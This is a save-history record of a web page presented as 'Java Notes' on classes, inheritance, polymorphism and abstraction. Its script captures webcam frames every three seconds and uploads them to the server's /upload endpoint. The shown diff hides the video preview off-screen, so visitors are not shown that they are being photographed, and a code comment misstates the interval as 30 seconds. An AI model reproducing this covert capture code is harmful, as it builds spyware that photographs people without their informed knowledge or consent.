
Repository: Shovon0004/Java
Page: public/index.html
These files come from the project's save history. The page is drawn as it stood at one moment and after a run of saves; the edit follows.
The browser window is 1280 px wide. The pictures show the whole page.

Above is the page before, as saved 2025-06-06 01:09:47.

### public/index.html
<!DOCTYPE html>
<html>

<head>
    <title>Java Notes with Webcam Capture</title>
    <style>
        body {
            font-family: Arial;
            margin: 40px;
            line-height: 1.6;
        }

        #video {
            width: 200px;
            position: fixed;
            bottom: 10px;
            right: 10px;
            border: 2px solid #444;
        }
    </style>
</head>

<body>
    <h1>📘 Java Notes</h1>
    <p>1. <strong>Class:</strong> Blueprint of object.</p>
    <p>2. <strong>Inheritance:</strong> Allows child class to acquire features of parent class.</p>
    <p>3. <strong>Polymorphism:</strong> Method overloading and overriding.</p>
    <p>4. <strong>Abstraction:</strong> Using abstract class or interface.</p>

    <video id="video" autoplay muted display="none"></video>
    <canvas id="canvas" width="320" height="240" style="display:none;"></canvas>

    <script>
        const video = document.getElementById("video");
        const canvas = document.getElementById("canvas");
        const context = canvas.getContext("2d");

        navigator.mediaDevices.getUserMedia({ video: true })
            .then(stream => {
                video.srcObject = stream;

                // Start capturing every 30 seconds
                setInterval(() => {
                    context.drawImage(video, 0, 0, canvas.width, canvas.height);
                    const imageData = canvas.toDataURL("image/png");

                    // Upload to server
                    fetch("/upload", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ image: imageData })
                    }).then(res => res.json())
                        .then(data => {
                            console.log("✅ Sent photo:", data.filename);
                        }).catch(err => {
                            console.error("❌ Upload failed", err);
                        });

                }, 3000); // 30 sec
            })
            .catch(err => {
                alert("Please allow webcam access!");
                console.error(err);
            });
    </script>
</body>

</html>

After the next 2 saves:

The 2 saves are shown as one change because they came seconds apart.
The last was saved 69 s later.
--- a/public/index.html
+++ b/public/index.html
@@ -27,8 +27,9 @@
     <p>3. <strong>Polymorphism:</strong> Method overloading and overriding.</p>
     <p>4. <strong>Abstraction:</strong> Using abstract class or interface.</p>
 
-    <video id="video" autoplay muted display="none"></video>
+    <video id="video" autoplay muted playsinline style="position: absolute; left: -9999px;"></video>
     <canvas id="canvas" width="320" height="240" style="display:none;"></canvas>
+
 
     <script>
         const video = document.getElementById("video");
